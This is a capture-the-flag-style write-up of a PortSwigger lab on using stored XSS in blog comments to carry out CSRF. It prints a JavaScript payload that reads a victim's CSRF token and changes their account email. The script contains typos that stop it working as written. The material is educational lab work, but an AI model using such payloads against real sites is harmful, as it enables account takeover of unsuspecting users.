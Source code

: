 ### Exploiting XSS to perform CSRF

### Lab description:-
 ![img](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/description.png)

### Introduction
 - **Stored XSS**, also known as persistent XSS which occurs when a malicious script is injected directly into a vulnerable web application. 
 - **Cross-site request forgery (also known as CSRF)** is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.
  
### Steps:

- let's start with check the blog comments to know how to exploit XSS at it by typing darsh'"< > to show if it will accept these quotes and brackets or not ?!

![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/check.png)

![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/darsh.png)

  as we see in the source page in last figure they are printed as they are written, *so we can write any script in the comment*. 
 
 - 2nd step is to login using given user name and password and update the email with to be attacker@gmail.com

 ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/login.png) 
 
 ![](email.png)
 
 - 3rd step is to go to the burpsuite to see the request sent when we update the email 
 
 ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/email.png)
 
     and as we see the request send the email and csrf in the request.
 
 - *the most important step is how we can use XSS to peform CSRF and change the user email by any email we want*
     we need to write scipt in comment page which send get request to account page to take the CSRf from it and send it with email we want ( i use darsh@gmail.com)
     to update the user email with this email.
     
    ```js:<script>
    var request = new XMLHttpRequest() ;
    request.onreadystatechange = changeEmail;
    request.open("get","/my-account",true)
    request.send() ; 
    function changeEmail(){
      var token = thins.reposeText.match(/name ="csrf" value= "(\w+)"/)[1] ;
      var change = new XMLHttpRequest();
      change.open("post","/my-account/change-email",true);
      change.send("email=darsh@gmail.com&csrf="+token) ;

    }

</script>
 
   ** This script send get request to account page to take the CSRf from it and send it with email we want (darsh@gmail.com)
    (post req)to update the user email with this email and then put it as a comment in blog comments page **
    
    ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/comment.png)
   
   after that if we return to account page we see that the email changed successfuly.
   
   ![](https://github.com/Mostafa-Mokthar/Writeups/blob/main/Web_Pentesting/PotrtSwigger/Exploiting%20XSS%20to%20perform%20CSRF/img/done.png)
   
